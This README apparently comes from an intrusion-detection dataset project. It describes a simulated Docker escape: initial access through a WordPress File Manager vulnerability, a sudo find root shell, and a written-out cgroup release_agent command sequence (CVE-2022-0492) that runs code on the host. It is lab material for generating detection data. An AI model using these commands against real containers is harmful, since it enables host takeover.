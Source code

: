 # **Docker Escape**

## **Table of Contents**
* [Explaining the attack](#explaining-the-attack)
* [How to Use](#how-to-use)
  * [Configurations](#configuration)
  * [Repeat mode](#for-repeat-mode)
* [Troubleshooting](#troubleshooting)
  * [Docker Escape attack fails on the reverse shell phase](#docker-escape-attack-fails-on-the-reverse-shell-phase)

## **Explaining the attack**
---

<br/>

Docker containers are well known, documented and simple to get started with, however we need to keep in mind the way they are used and especially the permissions these containers have.

This attack simulates the situation where a web server is running inside a Docker container, used for purposes of isolation, where the developer gave the container the ability to use the mount command.

This can be achieved by adding a capability to the container which has the mount command and disabling the apparmor, since it contains a black list for capabilities. This situation can also be achieved by executing the container with the [--privileged](https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities) flag.

In our case we went with:

```
cap_add:
    - SYS_ADMIN
security_opt:
    - apparmor:unconfined
```

`cap_add` will add the SYS_ADMIN capability which will give the container the ability to execute mount.

`security_opt:` will disable the default docker apparmor profile allowing us to use the mount command.

<br/>

After getting access to the system with the Wp File Manager vulnerability ([CVE-2020-25213](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25213)) we need to get root permissions within the container in order to break the isolation, for that we simulated a misconfiguration where the www-data user is able to use only one command with sudo which is `sudo find`.

The attack is as follows:

* Gain initial access through the Wp File Manager vulnerability.
* Execute `sudo find . -exec /bin/sh \; -quit ` which will spawn a root shell
* Exploit Linux Kernel's cgroup_release_agent vulnerability ([CVE-2022-0492](https://nvd.nist.gov/vuln/detail/cve-2022-0492)) by executing the following commands:
  * `mkdir /tmp/cgroup_mount`
  * `mount -t cgroup -o rdma cgroup /tmp/cgroup_mount/`
  * `mkdir /tmp/cgroup_mount/test`
  * `echo 1 > /tmp/cgroup_mount/test/notify_on_release`
  * `dir=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)`
  * `echo $dir"/escapingDocker" >  /tmp/cgroup_mount/release_agent`
  * `echo '#!/bin/sh' > /escapingDocker`
  * `echo 'ps aux >> '$dir'/output' >> /escapingDocker`
  * `echo 'echo "PoC, injected through the container" > /File_on_Host' >> /escapingDocker`
  * `chmod a+x /escapingDocker`
  * `sh -c "echo \$$ > /tmp/cgroup_mount/test/cgroup.procs`

<br/>

This script will execute `ps aux` on the host and write the output in a file inside docker `/output` to show that we can execute code in the host and be able to read the result.
After that, it will create a file `/File_on_Host` with the content `PoC, injected through the container` so that the user can swiftly check by himself that the attack was successful.

<br/>

## **How to use**
---
<br/>

This exploit can be ran in **repeat** mode.

From the **/path/to/project/IDS-Dataset/Attacks/WP** folder,

<br/>

### **Configurations:**

If you built the victim machine from scratch using our script you can use the following settings for the Docker escape attack:

``` Shell
sudo python3 main.py -c # To start the configuration process

Attacker ip: # Check the ip address with ' ifconfig '
Victim ip: # Check the ip address with ' ifconfig '
Exploit: 3
HTTPS: n
Victim Port: 8080
Activate auditing: y # Make sure the server is on, check Aux README for information
```

<br/>


### **For Repeat mode:**
``` Shell
sudo python3 main.py -r {number_times} # Don't forget to configure the config.ini on the 1st attack
```

OR

``` Shell
sudo python3 main.py # Don't forget to configure the config.ini on the 1st attack
```

This will execute the commands mentioned [above](#explaining-the-attack).

<br/>

## **Troubleshooting**
---

### **_Docker Escape attack fails on the reverse shell phase_:**
At the end of the setup process of the victim machine you will be instructed to execute some steps in order finish setting up what wasn't possible through the script. In you modified the Docker machine, or had to re-build it you might want to re-run through this steps:

* Access http://localhost:8080 and follow the installation steps
* Access the Plugins tab and Activate the Wp File Manager plugin
* Execute in the terminal -> ```shell docker exec $(docker ps | grep docker_wordpress | awk '{ print $1 }') bash -c "chown -R www-data:www-data /var/www/html/wp-content/"```


This will setup the Docker machine to be in the exact same state it was during development.
